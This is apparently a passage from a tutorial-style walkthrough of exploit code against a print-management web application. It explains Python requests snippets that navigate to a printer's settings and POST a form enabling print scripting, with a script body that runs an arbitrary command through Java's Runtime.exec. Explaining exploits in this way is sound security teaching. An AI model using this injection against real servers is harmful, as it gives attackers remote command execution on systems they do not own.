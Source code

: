 data = {'service': 'direct/1/PrinterList/selectPrinter','sp': 'l1001'}
    r = session.get(f'{base_url}/app?service=direct/1/PrinterList/selectPrinter&sp=l1001', ...)
```


- The purpose of this is to emulate selecting a specific printer within the UI. This action leads the application to show the printer-specific configuration page. 


- In the application, this selects the object to be configured; in the attack it selects the obkecct the attacker would want to modify. 



### Opening the printer options tab


```
    data = {'service': 'direct/1/PrinterDetails/printerOptionsTab.tab','sp': '4'}
    r = session.get(f'{base_url}/app', data=data, headers=headers, verify=False)
```


- The purpose for this line is to emulate clicking the options/config tab for the selected printer. Again, this is UI navigation that prepares the app for the follow up configuration ```POST```.



### ```POST ``` to enable scripting and supply script body


```
    data = {
        'service': 'direct/1/PrinterDetails/$PrinterDetailsScript.$Form',
        'sp': 'S0',
        'Form0': 'printerId,enablePrintScript,scriptBody,$Submit,$Submit$0,$Submit$1',
        'printerId': 'l1001',
        'enablePrintScript': 'on',
        'scriptBody': "function printJobHook(inputs, actions) {}\r\n" \
                     f"java.lang.Runtime.getRuntime().exec('{command}');",
        '$Submit$1': 'Apply',
    }
    r = session.post(f'{base_url}/app', data=data, headers=headers, verify=False)
```


This is the very important step, this submits the printer configuration form. 


The fields mirror tthe web UI form: 


- ```printerId```: which printer to modify.


- ```enablePrintScript``` which toggles a server-side scripting feature (as previously mentioned) for that printer. 


- ```scriptBody```: The script text stored by the application and later executed when the print hook runs. 


The code is performing the locate then update workflow of the admin UI, finding the config entry, then submitting the form with new values. 
```